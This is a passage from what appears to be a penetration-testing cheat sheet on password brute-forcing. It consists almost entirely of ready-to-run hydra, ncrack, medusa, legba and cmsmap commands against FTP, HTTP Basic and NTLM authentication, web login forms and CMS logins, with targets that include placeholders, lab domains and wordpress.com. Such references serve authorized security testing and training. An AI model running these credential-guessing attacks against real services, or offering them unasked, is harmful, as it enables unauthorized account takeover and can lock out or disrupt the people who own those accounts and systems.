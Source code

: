 ### FTP

```bash
hydra -l root -P passwords.txt [-t 32] <IP> ftp
ncrack -p 21 --user root -P passwords.txt <IP> [-T 5]
medusa -u root -P 500-worst-passwords.txt -h <IP> -M ftp
legba ftp --username admin --password wordlists/passwords.txt --target localhost:21
```

### HTTP Generic Brute

#### [WFuzz](../pentesting-web/web-tool-wfuzz.md)

### HTTP Basic Auth

```bash
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst sizzle.htb.local http-get /certsrv/
# Use https-get mode for https
medusa -h <IP> -u $user -P  <passwords.txt> -M  http -m DIR:/path/to/auth -T 10
legba http.basic --username admin --password wordlists/passwords.txt --target http://localhost:8888/
```

### HTTP - NTLM

```bash
legba http.ntlm1 --domain example.org --workstation client --username admin --password wordlists/passwords.txt --target https://localhost:8888/
legba http.ntlm2 --domain example.org --workstation client --username admin --password wordlists/passwords.txt --target https://localhost:8888/
```

### HTTP - Post Form

```bash
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst domain.htb  http-post-form "/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
# Use https-post-form mode for https
```

For http**s** you have to change from "http-post-form" to "https-post-form"**

### **HTTP - CMS --** (W)ordpress, (J)oomla or (D)rupal or (M)oodle

```bash
cmsmap -f W/J/D/M -u a -p a https://wordpress.com
# Check also https://github.com/evilsocket/legba/wiki/HTTP
```

### IMAP
